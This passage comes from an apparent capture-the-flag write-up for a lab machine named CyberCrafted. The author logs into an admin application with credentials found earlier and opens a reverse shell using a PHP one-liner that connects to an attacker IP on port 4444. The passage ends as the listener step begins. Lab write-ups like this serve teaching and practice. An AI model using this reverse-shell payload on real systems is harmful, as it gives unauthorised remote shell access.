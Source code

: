 I get back to the login page on **admin** domain and login using the creds I have found. And it brings me to this application:

![Untitled](/assets/CyberCrafted%20images/Untitled%2017.png)

I try some basic commands and it displays like this:

![Untitled](/assets/CyberCrafted%20images/Untitled%2018.png)

After that I establish a reverse shell using this payload:

```
php -r '$sock=fsockopen("10.9.63.75",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Start a listener and get connect:

